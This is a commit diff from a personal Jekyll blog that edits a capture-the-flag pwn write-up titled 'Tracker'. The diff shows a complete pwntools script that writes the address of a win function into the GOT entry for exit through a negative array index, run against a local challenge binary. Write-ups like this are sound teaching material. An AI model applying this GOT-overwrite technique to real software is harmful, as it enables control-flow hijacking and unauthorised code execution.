

Before and after one commit to ziad626/ziad686-blog, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update post

````diff
--- a/_posts/2026-09-25-tracker-negative-index-got.md
+++ b/_posts/2026-09-25-tracker-negative-index-got.md
@@ -2,11 +2,11 @@
 
 layout: post
 
-title: "Tracker - Negative Index to GOT Overwrite"
+title: "Tracker - NileCTF 2026"
 
 date: 2026-09-25
 
-tags: [ctf, pwn]
+tags: [ctf, pwn, my-challenge]
 
 ---
 
@@ -212,30 +212,17 @@ After the overwrite, the program reaches `exit(0)`, looks up the address in the
 
 from pwn import *
 
-
-
 elf = ELF("./tracker")
 
 p = process("./tracker")
-
-
 
 offset_bytes = elf.got['exit'] - elf.sym['notes']
 
 index = offset_bytes // 8
 
-
-
 p.sendlineafter(b"Index: ", str(index).encode())
-
 p.sendlineafter(b"Value: ", str(elf.sym['win']).encode())
-
-
 
 p.interactive()
 
 ```
-
-
-
-The script loads the binary with pwntools, calculates the index from the symbol add
````
